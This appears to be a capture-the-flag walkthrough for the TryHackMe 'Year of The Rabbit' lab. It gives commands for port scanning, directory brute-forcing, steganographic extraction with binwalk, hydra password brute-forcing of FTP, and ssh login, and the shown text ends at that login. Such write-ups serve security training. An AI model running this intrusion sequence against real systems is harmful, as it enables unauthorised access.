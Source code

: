 # Year of The Rabbit
    ~ https://tryhackme.com/room/yearoftherabbit

* ### This is a direct walk-through to the flag. Hopping that you have given your best before referring to this write-up
* ### Assuming that your are using Attack-box or conntected to VPN. If not, do refer to [vpn_connection](https://github.com/shybu9/TRY-HACK-ME/tree/main/OPEN-VPN-CONNECTION "OPEN VPN CONNECTION")
*  ### Do follow this page through out the line to void confusion.

<br>

 ![rabbit intro](https://user-images.githubusercontent.com/112984045/200450627-fcc3ffa8-4e3c-4bde-9530-2cdb6acfbf7b.png)
~ the IP will be given once you join the room and Start Machine succefully after connecting to OPEN-VPN
 
 ## ENUMERATION :

 * For ENUMERATION we use nmap tool which come by default in kali linux.
 <br>command : 
 ```bash
 nmap -sVC -T4 -v <IP> 
 ```
 ![rabbit nmap](https://user-images.githubusercontent.com/112984045/200450896-f5d9f661-a182-4d23-a6bd-ac86ea7ebce7.png)
 <br>~ we can add -v argument for more verbose output.
 
 * I usually perform one more scan by using my personal tool : [port-scanner](https://github.com/shy.bu9/portscanner)
![rabbit portscanner](https://user-images.githubusercontent.com/112984045/200451032-97c2aa8e-2ace-4a73-8c87-d8280bfd5bee.png)<br>
 ~ I prefer this tool because of its speed as you can see it just took 858 seconds for scanning 65535 ports.Even still some improvements to be done
 
 ### ANALYSING BOTH SCANS :
 * number of OPEN PORTS : 3
 * PORT NUMBERS : 21,22,80
 * OPERATING SYSTEM : Uinux, Linux
 * service running on PORT 21 : ftp
 * service running on PORT 22 : ssh
 * service running on PORT 80 : http
 
 * As the port 80 is open lets have a look on web pages using IP
 ```bash
 http://<IP>
 ```
 
 <br>
 
 ```bash
 gobuster dir -u http://10.10.118.215/ --no-error -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -o commongobu.txt
 ```
 ![rabbit gobuster](https://user-images.githubusercontent.com/112984045/200460412-5d6f4312-86ab-4372-805f-7875f79515a0.png)
 <br>
 
 ```bash
 http://<IP>/assets/
 ```
 ![rabbit assets](https://user-images.githubusercontent.com/112984045/200452670-15edf2c8-84b6-4285-8e6b-897f3983ab95.png)
 <br>
 
```bash
http://<IP>/assets/style.css
```
![rabbit assets css](https://user-images.githubusercontent.com/112984045/200698012-0eaba1c0-3685-4bab-80dc-45f8d3b7c629.png)
<br>

```bash
http://<IP>/< directory name in style.css >
```
` use the burp.. to check the response.`
![rabbit burp](https://user-images.githubusercontent.com/112984045/200702406-47239f73-313c-4ad4-8b47-85ee21b0b63d.png)
<br>

```bash
http://<ip>/< hidden directory name found in burp response >
```
![rabbit wexy](https://user-images.githubusercontent.com/112984045/200703653-2c5b4901-690a-4074-8aaa-bf80b340d397.png)
<br>

` copy the hot_bae image link and use the command :`
```bash
wget < link of image >
```
![rabbit wget](https://user-images.githubusercontent.com/112984045/200704376-4cd96a1f-c1cc-4678-ab41-28fe2391697d.png)
<br>

```bash
binwalk Hot_Babe.png 
```
```bash
sudo binwalk -e Hot_Babe.png --run-as=root
```
![rabbit binwalk](https://user-images.githubusercontent.com/112984045/200704812-9f351144-17c9-4001-acee-49013321a323.png)
<br>

```bash
cd _Hot_Babe.png.extracted
```
<br>

` use external web to extract the files in 36.zlib`[web](https://filext.com/file-extension/ZLIB)
![rabbit zlib extract](https://user-images.githubusercontent.com/112984045/200705317-7736006e-7870-40b1-b56b-9e52983bdabf.png)
<br>

```bash
hydra -l < username extracted > -P < list of passwords extracted > ftp://<IP>
```
` don't forget remove spaces from the password list`
![rabbit hydra ftp](https://user-images.githubusercontent.com/112984045/200705605-f4b8f8c1-ae57-4ce1-89cf-87aa30af85b5.png)
<br>

```bash
ftp <IP>
```
![rabbit ftplogin](https://user-images.githubusercontent.com/112984045/200706000-512cd4b9-0773-46c3-b4bc-93dd6b340b72.png)
<br>

```bash
get Eli's_Creds.txt
```
<br>

` terminate the ftp connection using ctrl+d `

` the code in Eli's_Creds.txt was a brainfuck programming language which is really good at its name `
* use [web](https://www.tutorialspoint.com/execute_brainfk_online.php) to execute the program.

![rabbit brainfuck](https://user-images.githubusercontent.com/112984045/200707694-ce3ff23b-2b5a-42f1-9292-81eea695481c.png)
<br>

```bash
ssh <username from brainfuck execution>@<IP>
```




